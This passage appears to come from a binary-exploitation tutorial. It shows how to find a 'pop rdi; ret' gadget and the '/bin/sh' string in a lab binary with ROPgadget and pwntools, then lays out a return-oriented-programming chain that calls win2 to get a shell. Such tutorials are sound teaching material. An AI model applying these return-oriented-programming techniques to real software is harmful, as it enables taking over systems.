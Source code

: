 ```
━━┫ ROPGadget --binary example02
Gadgets information                                                                                                                                                                                                            
============================================================                                                                                                                                                                   
0x00000000004010b8 : adc byte ptr [rax + 0x40], al ; add bh, bh ; loopne 0x40112d ; nop ; ret
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401024
0x000000000040114f : add al, ch ; jmp 0x401153
0x00000000004010bb : add bh, bh ; loopne 0x40112a ; nop ;ret
0x000000000040114d : add byte ptr [rax], al ; add al, ch ; jmp 0x401155
...
A lot more gadgets
```

As binaries have tons of gadgets, and as they get larger, the list of gadgets grow longer, ROPGadget and similar tools have search functionalities. In our case, however, a simple `grep` will do.
```
━━┫ ROPgadget --binary example02 | grep 'pop rdi'
0x000000000040122b : pop rdi ; ret
```

We can also use pwntools to perform a similar functionality

```python
━━┫ python
>>> from pwn import *
>>> rop = ROP('./example02')
[*] '/home/example02/example02'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> rop.find_gadget(['pop rdi'])
Gadget(0x40122b, ['pop rdi', 'ret'], ['rdi'], 0x8)
```

While we are here, we can also get the address of `/bin/sh\x00`, which is convienently at the end of a string in the binary.
```python
>>> binary = ELF('./example02')
>>> hex(next(binary.search(b'/bin/sh\x00')))
'0x402035'
```

## Calling win2 and getting a shell

Now it is simply a matter of assembling our ropchain, which should look like:

```
0x40122b -  pop_rdi_ret
0x402035 -  ptr_to_bin_sh (which will be popped into rdi)
0x401158 -  win2
```
